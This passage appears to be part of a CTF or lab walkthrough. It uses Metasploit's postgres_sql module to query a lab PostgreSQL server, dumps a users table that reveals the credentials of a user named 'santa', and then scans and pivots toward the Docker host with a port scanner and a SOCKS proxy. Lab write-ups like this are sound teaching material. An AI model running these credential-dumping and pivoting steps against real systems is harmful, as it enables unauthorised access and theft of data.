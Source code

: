 > has username column

- `use auxiliary/admin/postgres/postgres_sql`
- set rhosts and database = "postgres"
- `exploit`:

```console
[*] Running module against 172.28.101.51

Query Text: 'select version()'
==============================

    version
    -------
    PostgreSQL 10.5 on x86_64-pc-linux-musl, compiled by gcc (Alpine 6.4.0) 6.4.0, 64-bit

[*] Auxiliary module execution completed
```

> we can run a custom query against the DB

- `set sql "select * from users"`
- `run`:

```console
[*] Running module against 172.28.101.51

Query Text: 'select * from users'
=================================

    id  username  password  created_at                  deleted_at
    --  --------  --------  ----------                  ----------
    1   santa     p4$$w0rd  2022-09-13 19:39:51.669279  NIL

[*] Auxiliary module execution completed
```

> we got santa's credentials  
> ... ssh?  
> ... docker host?  

## Scan the docker host

### Either with metasploit 
{: .no_toc}

- `search portscan`
- `use auxiliary/scanner/portscan/tcp`
- `set rhosts 172.17.0.1` and `run` - 22 & 80 open

### Or use SOCKS Proxy 
{: .no_toc}

- `search socks` & `use 1` & `exploit`
